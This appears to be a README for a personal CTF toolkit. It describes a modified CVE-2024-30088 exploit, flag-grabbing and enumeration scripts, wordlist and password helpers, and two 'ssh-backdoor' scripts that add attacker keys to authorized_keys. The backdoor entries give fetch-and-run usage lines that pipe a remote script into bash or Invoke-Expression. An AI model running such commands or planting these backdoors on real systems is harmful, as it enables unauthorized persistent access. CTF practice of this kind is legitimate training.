 # CTF

## [CVE-2024-30088_flags.cpp](./CVE-2024-30088_flags.cpp) - Exploit for CVE-2024-30088 to Capture Flags

This is a modified exploit for **CVE-2024-30088**, designed to capture flags from a Windows system by exploiting a recent vulnerability. At the time, the exploit was effective, but it is expected to be patched on most up-to-date systems. It was fun while it lasted.


## [flagssh.sh](./flagssh.sh) - SSH Wrapper for Snatching Flags and Initial Enumeration

`flagssh.sh` is an SSH wrapper script to automate flag retrieval during SSH authentication, targeting both user and root flags on remote systems. In addition to capturing flags, it has great potential for adding more functionality to assist with initial enumeration, such as checking user permissions, sudo privileges, and transferring necessary tools for further exploitation.

#### Features:
- Automates SSH login and flag retrieval (user.txt, root.txt).
- Supports both password-based and key-based SSH authentication.
- Provides a flexible framework for adding additional enumeration tasks during the initial foothold phase.

#### Usage:
```bash
flagssh.sh <username>@<hostname> [<password_or_ssh_key>]
```

## [grepper.sh](./grepper.sh) - Targeted Search for Hidden Files in CTF Challenges

`grepper.sh` is a tool for (CTF) challenges where critical information, like passwords or flags, is hidden deep within the filesystem. The tool was created after encountering a CTF box with a hidden password buried in a `.log.gz` file, which was frustrating to locate manually. This script automates the search process by grepping for specific keywords in common directories and compressed files, making it easier to find those elusive clues. While it's a resource intensive tool, it is often a last resort after traditional enumeration techniques have failed.

#### Features:
- Searches for keywords in common system directories and within `.gz` compressed files.
- Designed to help in CTF scenarios where important files or logs are buried deep within the filesystem.
- Provides quick searches in common directories like `/opt` and `/var`.
- Automatically generates keywords based on system usernames and hostnames.
- Supports verbose output and searching binary files.

#### Usage:
```bash
grepper.sh [--all] [--path=dir1] [--path=dir2] ... [--verbose] [--auto] [--quick] [--gzip] [keyword1 [keyword2 ...]]
```

- `--all`: Include binary files in the search.
- `--path=dir`: Specify one or more directories to search.
- `--verbose`: Print detailed command output.
- `--auto`: Automatically generate keywords from system users and hostnames.
- `--quick`: Quickly search common directories `/opt` and `/var`.
- `--gzip`: Enable searching within `.gz` compressed files.


## [htb-usercontent.py](./htb-usercontent.py) - Fetch Hack The Box User-Generated Content

`htb-usercontent.py` is a script that interacts with the Hack The Box (HTB) API to retrieve all content generated by a specific user. This includes details about machines, challenges, and writeups the user has created. The tool is useful for OSINT allowing to quickly gain insights into a user's contributions on the HTB platform, such as which boxes they’ve created.


#### Usage:
```bash
htb-usercontent.py <user_id> [--proxy] [--ignore-ssl] [--machines] [--challenges] [--writeups]
```

- `<user_id>`: The HTB user ID you want to query.
- `--proxy`: Route requests through a proxy (useful for debugging).
- `--ignore-ssl`: Ignore SSL certificate verification.
- `--machines`: Print only information about machines created by the user.
- `--challenges`: Print only information about challenges created by the user.
- `--writeups`: Print only information about writeups authored by the user.

## [quickpass.py](./quickpass.py) - Search for Passwords in rockyou.txt Based on Keywords

`quickpass.py` is a simple yet effective script that searches the `rockyou.txt` wordlist for passwords related to specific keywords. It is particularly useful for boxes, where content creators sometimes use passwords that have some relation to the name of the box, service, or username. The script also supports searching in 1337-speak format for additional variations of the keywords.

#### Features:
- **Keyword-based password search**: Searches for passwords in `rockyou.txt` that match specific keywords, which can be related to the box name or service.
- **Leet-speak support**: Optionally convert the keyword into leet-speak and search for its variations.
- **Write results to file**: Saves matching passwords into `quickwins.txt` for easy access.

## [prefixsuffix.py](./prefixsuffix.py) - Generate Quick Custom Wordlist

`prefixsuffix.py` is a fast and customizable wordlist generator designed specifically for CTF challenges. It allows you to create targeted wordlists by combining predefined or custom prefixes and suffixes, making it ideal for situations where traditional wordlists like `rockyou.txt` take too long to process, especially against hashing algorithms or slow brute-force attacks.


#### Usage:
```bash
python3 prefixsuffix.py [--all] [--leet] [--prefix <prefix1> <prefix2>] [--suffix <suffix1> <suffix2>] [-cp]
```

- `--all`: Include lowercase versions of the predefined and additional prefixes.
- `--leet`: Apply Leet speak transformations to both prefixes and suffixes.
- `--prefix`: Add custom prefixes to the wordlist.
- `--suffix`: Add custom suffixes to the wordlist.
- `-cp` or `--custom-prefixes`: Use only the custom prefixes supplied and ignore the predefined ones.
- `--output`: Save the generated wordlist to a file (default: `prefixsuffix.txt`).


#### Usage:
```bash
quickpass.py <keywords> [--leet]
```

## [ssh-backdoor.ps1](./ssh-backdoor.ps1) - Quick and Easy SSH Persistence (Windows)

`ssh-backdoor.ps1` is a PowerShell script designed to simplify and automate the setup of SSH key-based persistance on Windows systems, especially for administrative users. This script manages SSH keys by configuring `authorized_keys` for individual users, setting up the required `administrators_authorized_keys` for admin accounts, and ensuring that proper permissions are enforced. 

### Features
- Creates `authorized_keys` in the `.ssh` directory for the current user, adding specified public keys for SSH access.
- Admin-Specific Configuration:
  - Creates and configures `administrators_authorized_keys` in `C:\ProgramData\ssh`, enforcing necessary permissions for the `Administrators` and `SYSTEM` groups.
  - Automatically updates SSH settings to ensure `PubkeyAuthentication` is enabled.
  - Adds keys to `authorized_keys` for all local user profiles on the system, providing SSH access across all accounts.
- Creates timestamped backups of any files it modifies, ensuring existing configurations are preserved.
- Restarts the SSH service if changes are made, but only if the script is run by an administrator.

### Usage:
To execute the script, run it in an elevated PowerShell prompt:
```powershell
Invoke-Expression (Invoke-WebRequest <script_url>)
```

## [ssh-backdoor.sh](./ssh-backdoor.sh) - Quick and Easy SSH Persistence

`ssh-backdoor.sh` is my absolute favourite script. It simplifies the process of setting up SSH persistence by adding public keys to the target's `~/.ssh/authorized_keys` file. This script ensures a secure and reliable backdoor for remote access if SSH login is available on the target machine. It performs the necessary directory and file setup, including backing up existing `authorized_keys`, setting appropriate permissions, and appending keys to the file.

The script is easy to curl into bash for fast execution and clean persistence.


#### Usage:
```bash
curl -sSL <script_url> | bash
```


